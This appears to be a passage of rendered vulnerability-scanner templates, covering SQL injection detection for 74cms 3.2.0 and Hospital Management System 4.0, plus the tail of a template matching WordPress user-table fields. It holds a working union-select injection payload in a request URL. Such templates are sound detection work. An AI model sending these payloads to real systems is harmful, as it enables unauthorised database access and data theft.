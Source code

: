 **Type - word**
- words
    1. text/html
- part - header

**Type - word**
- words
    1. "user_login"
    2. "user_email"
    3. "user_pass"
    4. "user_activation_key"
- condition - and
- part - body

**Type - status**
- status
    1. 200

---
# 74cms - ajax_street.php 'key' SQL Injection
## Description
- SQL Injection in 74cms 3.2.0 via the key parameter to plus/ajax_street.php.

- severity - critical
- tags - cve,cve2020,74cms,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/plus/ajax_street.php?act=key&key=%E9%8C%A6%27%20union%20select%201,2,3,4,5,6,7,md5({{num}}),9%23
### Matchers

**Type - word**
- part - body
- words
    1. {{md5({{num}})}}

---
# Hospital Management System 4.0 - SQL Injection
## Description
- Hospital Management System 4.0 contains multiple SQL injection vulnerabilities because multiple pages and parameters do not validate user input. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve2020,hms,cms,sqli,authenticated,edb,cve
## Requests
### Step - 1
```
POST /hospital/hms/doctor/index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}password={{password}}&submit=&submit=

```